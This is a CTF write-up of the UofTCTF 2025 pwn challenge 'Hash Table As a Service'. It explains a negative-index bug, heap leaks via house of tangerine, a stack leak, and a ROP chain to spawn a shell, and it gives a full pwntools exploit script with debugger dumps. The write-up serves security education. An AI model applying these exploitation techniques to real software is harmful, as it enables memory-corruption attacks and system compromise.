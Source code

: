 ```yaml
---
layout: post
title: "UofTCTF 2025 - Pwnable Write up"
date: 2025-01-16 00:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux]
media_subpath: /assets/img/20250116_uoftctf-2025-wu
image: logo.png
---
```


I solved 3 pwn challs out of 3 during the CTF (Book Editor, Counting Sort, Hash Table As a Service).

Among them, I want to write down the last one.

- [https://ctftime.org/event/2570/](https://ctftime.org/event/2570/)

## **Hash Table As a Service (15 solves)**

**[0x01] Summary**

- Utilized negative indexing on `hashTables` to achieve AAR/AAW primitive.
- Leveraged heap manipulation techniques to leak heap and libc addresses, then obtained a stack leak using AAR.
- Injected a ROP chain on stack and spawn a shell.

**[0x02] Solution**

There were three features in this binary like creating hash table, set hash table, and get hash table.

```c
struct HASH
{
  __int64 size;
  hash_content *content;
};

struct hash_content
{
  __int32 key;
  char value[8];
};
```

Through a global array (`hashTables`), those features are implemented and it has 20 `HASH` entry. And each hash entry has a pointer of `hash_content` structure.

```c
            // creating hash table
            printf("Size: ");
            __isoc99_scanf("%ld", &size);
            if ( (unsigned int)allocHashTable(size, &hashTables[index]) )
```

There was a no limit about the size of hash table, so I can set arbitrary value on BSS.

And I found that the hash table index can have negative value on the set/get hash table features. It means that we can use not only `hashTables` array in BSS, but also the pointers in binary.

```py
pwndbg> x/2gx 0x555555558040 - 0x250
0x555555557df0:    0x000000006ffffef5    0x00005555555543b0
```

Luckily, there was a good target which can be used as a `HASH` structure. It have a large size and its pointer is referencing the address which is less than `hashTables` array. 

Before that, it is important to know how the program retrieve the `hash_content` structure from the `HASH` structure.

```c
hash_content *__fastcall getHashTable(HASH *hash, int key)
{
  unsigned __int64 hash_index; // [rsp+10h] [rbp-10h]
  hash_content *content; // [rsp+18h] [rbp-8h]

  hash_index = (unsigned __int64)key % hash->size;
  content = hash->content;
  while ( key != content[hash_index].key && memcmp(&empty, &content[hash_index], 0xCuLL) )
    ++hash_index;
  return &content[hash_index];
}
```

We can input a index of `HASH` and a key of `hash_content` and the program picks up a `HASH` structure from index with `hashTables`. Then it uses the key as a index of `hash_content` and search it until one of the following conditions is satisfied:

- dereferenced key is same with the entered key.
- dereferenced `hash_content` is filled with zero.

To use the target hash table which I introduced above, I created a hash table which has a same size with the offset from the target and printed the heap address.

```py
pwndbg> x/8gx &hashTables
0x555555558040 <hashTables>:	0x0000000000000000	0x0000000000000000
0x555555558050 <hashTables+16>:	0x0000000000000000	0x0000000000000000
0x555555558060 <hashTables+32>:	0x0000000000000000	0x0000000000000000
0x555555558070 <hashTables+48>:	0x4141414100000510	0x00005555555592a0

pwndbg> x/2gx 0x00005555555543b0 + 0x510 * 0xC
0x555555558070 <hashTables+48>:	0x4141414100000510	0x00005555555592a0
```

Because I can only modify and read 8 bytes from `hash_content->value`, I was only able to acquire and modify the 4 bytes of the heap and it was enough to get advanced.

By using it, we can overwrite any value within the heap segment and make a freed chunk in a unsorted bin without calling `free()` from top chunk. If we could modify the top chunk's size with the page-alignment size lowering previous top chunk's size and allocate a bigger size than its size, we can get freed the top chunk (you can see the details from [house of tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_tangerine.c))

From the freed top chunk, we can leak the base of glibc segment.

Also, we can set AAR/AAW primitive from the good target.

```py
pwndbg> x/2gx 0x555555558040 - 0x250
0x555555557df0:	0x000000006ffffef5	0x00005555555543b0

pwndbg> x/2gx 0x00005555555543b0 + 0x50F * 0xC
0x555555558064 <hashTables+36>:	0x414141410000050f	0x0000051041414141

pwndbg> x/8gx &hashTables
0x555555558040 <hashTables>:	0x0000000000000015	0x000055555555cf70
0x555555558050 <hashTables+16>:	0x0000000000000155	0x000055555557a010
0x555555558060 <hashTables+32>:	0x0000050f00000000	0x4141414141414141      # <-- hashTables[2]
0x555555558070 <hashTables+48>:	0x4141414100000510	0x000055555555d07c
```

We can set any address to read and write and we already know the libc's base. Then I did ROP on stack. My solver code is following:

```py
from pwn import*
context.binary = ELF("./chall", False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)
# libc = ELF("./libc.so.6", False)
def new_ht(idx, size):
    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b": ", str(idx).encode())
    p.sendlineafter(b": ", str(size).encode())
def set_ht(idx, key, value):
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b": ", str(idx).encode())
    p.sendlineafter(b": ", str(key).encode())
    p.sendafter(b": ", value)
def get_ht(idx, key):
    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b": ", str(idx).encode())
    p.sendlineafter(b": ", str(key).encode())
def get_ht_brute(idx, key):
    p.sendline(b'3')
    p.sendline(str(idx).encode())
    p.sendline(str(key).encode())

p = process(aslr=0)
# p = remote('localhost', 5000)

# 1. heap leak through same size with the offset
new_ht(3, 0x510)
set_ht(-0x25, 0x510, b'A'*4)
get_ht(-0x25, 0x510)
p.recvuntil(b'A'*4)
heap = u64(p.recv(4).ljust(8, b'\x00')) - 0x2a0
log.success(f"heap base @ {hex(heap)}")

# 2. make unsorted bin by overwriting TOP chunk 
new_ht(0, 0x100 // 0xC)
set_ht(-0x25, 0x510, b'A'*4 + p32(heap + 0x4070))
set_ht(3, 0, b'A'*4 + p32(0xf91))

# 3. leak libc from heap
new_ht(1, 0x1000 // 0xC)
set_ht(-0x25, 0x510, b'A'*4 + p32(heap + 0x4080 - 0x4))
get_ht(3, 0)
p.recvuntil(b"Value: ")

libc.address = u64(p.recv(6).ljust(8, b'\x00')) - libc.sym._IO_2_1_stdin_ - 0x240
log.success(f"libc base @ {hex(libc.address)}")

# 4. stack leak through AAR
set_ht(-0x25, 0x50F, p64(libc.sym.environ - 4))
get_ht(2, 0)
p.recvuntil(b": ")
stack = u64(p.recv(6).ljust(8, b'\x00')) - 0x120
log.success(f"stack @ {hex(stack)}")

# 5. clear stack with zero
set_ht(-0x25, 0x50F, p64(stack - 4))
set_ht(2, 0, p64(0))
for i in range(0x10):
    set_ht(-0x25, 0x50F, p64(stack - 4 + i * 8))
    set_ht(2, 0, p64(0))

# 6. write ROP payload on main RET
rop = ROP(libc)
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh"))])
payload = rop.chain()
payload_list = []
for i in range(len(payload) // 8):
    payload_list.append(u64(payload[i*8: (i+1)*8]))

for i in range(len(payload) // 8):
    set_ht(-0x25, 0x50F, p64(stack + 0x18 - 4 - i * 8))
    set_ht(2, 0, p64(payload_list[-1 - i]))

set_ht(-0x25, 0x50F, p64(stack - 4 - (stack >> 32) * 0xC))
set_ht(2, (stack >> 32), p64(payload_list[0]))
p.sendlineafter(b"> ", b'4')

p.interactive()
```

[The intend solver](https://github.com/UofTCTF/uoftctf-2025-chals-public/blob/master/hash-table-as-a-service/solve/solve.py) by the author, cleverly using only the hash features, similarly frees the top chunk to get libc base, repeats the process two more times to create tcache dup, and finally overwrites `_IO_end_buf` of `stdin` to perform FSOP.